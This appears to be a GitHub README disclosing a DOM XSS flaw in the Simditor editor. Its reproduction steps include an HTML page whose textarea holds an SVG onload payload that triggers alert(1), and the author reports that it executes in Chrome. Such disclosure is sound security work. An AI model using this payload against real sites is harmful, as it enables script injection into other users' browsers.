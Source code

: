# simditor
https://github.com/mycolorway/simditor
DOM XSS


Download the Simditor source code.
--
``We just need this three js,you can use my sample code or download from https://github.com/mycolorway/simditor.``
![image](https://github.com/hkglue/simditor_demo/blob/master/images/js.jpg)
--


Edit a HTML FILE
--
```
<html>
<title>test</title>
<body>
<script type="text/javascript" src="./jquery.min.js"></script>
<script type="text/javascript" src="./module.js"></script>
<script type="text/javascript" src="./hotkeys.js"></script>
<script type="text/javascript" src="./simditor.js"></script>

<textarea id="editor"><svg><svg/onload=alert(1)></textarea>
<script>var editor = new Simditor({textarea: $('#editor')});</script>

</body>
</html>
```
--

Open the HTML in any browser.
--
*This is in my chrome，THE XSS PAYLOAD IS EXECUTE !
![image](https://github.com/hkglue/simditor_demo/blob/master/images/example.jpg)
--
